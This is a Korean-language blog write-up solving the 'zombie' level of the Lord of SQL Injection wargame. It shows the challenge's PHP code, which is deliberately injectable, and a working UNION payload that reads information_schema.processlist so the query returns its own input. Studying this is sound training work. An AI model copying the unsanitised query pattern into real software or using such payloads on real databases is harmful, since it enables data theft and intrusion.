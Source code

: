 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - zombie 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


핳핳 드디어 거의 끝이 보인다!  

이번 문제는 `zombie`이다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------------
query : select pw from prob_zombie where pw=''
-------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect("zombie");
  if(preg_match('/rollup|join|ace|@/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_zombie where pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['pw']) echo "<h2>Pw : {$result[pw]}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("zombie");
  highlight_file(__FILE__);
?>
```

처음엔 이 문제 보고 `이 전 문제 푼거랑 똑같이 풀면 되겠다!` 생각했다.  

근데 `ace`에 필터링이 있어서 `replace`를 사용을 못하더라.  

그래서 어떻게 풀지... 고민하는데 내 옆에 있던 `웹짱해커`님이 `ㅎㅎ 겁나 쉽게 풀 수 있는데~~` 이러고 약올렸다. ㅂㄷㅂㄷ  

화나는 건 이렇게 약올리는데 난 방법을 모르겠는거다!  

어쨌든 어찌어찌 풀긴 했는데, `information_schema`의 테이블 이름을 다 외우고 있어야되나 싶은 생각이 들었다.  

`information_schema` 데이터베이스를 보면 `processlist`라는 테이블이 있다.  

이 테이블에는 현재 실행중인 쿼리문이 저장되어 있다.  

실제 내 서버에서 확인해 본 결과이다.  

```
mysql> select * from processlist;
+----+------+-----------+--------------------+---------+------+-----------+---------------------------+
| ID | USER | HOST      | DB                 | COMMAND | TIME | STATE     | INFO                      |
+----+------+-----------+--------------------+---------+------+-----------+---------------------------+
| 24 | root | localhost | information_schema | Query   |    0 | executing | select * from processlist |
+----+------+-----------+--------------------+---------+------+-----------+---------------------------+
1 row in set (0.00 sec)
```

`INFO` 컬럼에 내가 방금 입력 한 `select * from processlist`가 있는 것을 알 수 있다.  

그렇다면 내가 문제를 풀기위해 입력하는 쿼리도 이 `processlist`에 들어가 있을테니, 그 `processlist`에서 데이터를 추출 해 내가 입력 한 부분만 잘라내면 그 결과가 똑같이 나오게 될 것이다.  

```
?pw=' union select substr(info, 38, 72) from information_schema.processlist#
```

위와 같이 넘겨준다면, `processlist`의 `info` 컬럼에 `select pw from prob_zombie where pw='' union select substr(info, 38, 72) from information_schema.processlist#` 가 저장되어 있을 것이다.  

이 때, `substr(info, 38, 72)`를 `select`하도록 해, 내가 입력 한 `' union select substr(info, 38, 72) from information_schema.processlist#`를 뽑아 오도록 하면 된다.  

힣 `zombie`도 처치했다!  

```php
----------------------------------------------------------------------------------------------------------------------------------------------------------------
query : select pw from prob_zombie where pw='' union select substr(info, 38, 72) from information_schema.processlist#'
----------------------------------------------------------------------------------------------------------------------------------------------------------------

Pw : ' union select substr(info, 38, 72) from information_schema.processlist#
ZOMBIE Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect("zombie");
  if(preg_match('/rollup|join|ace|@/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_zombie where pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['pw']) echo "<h2>Pw : {$result[pw]}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("zombie");
  highlight_file(__FILE__);
?>
```

`ZOMBIE Clear!!`
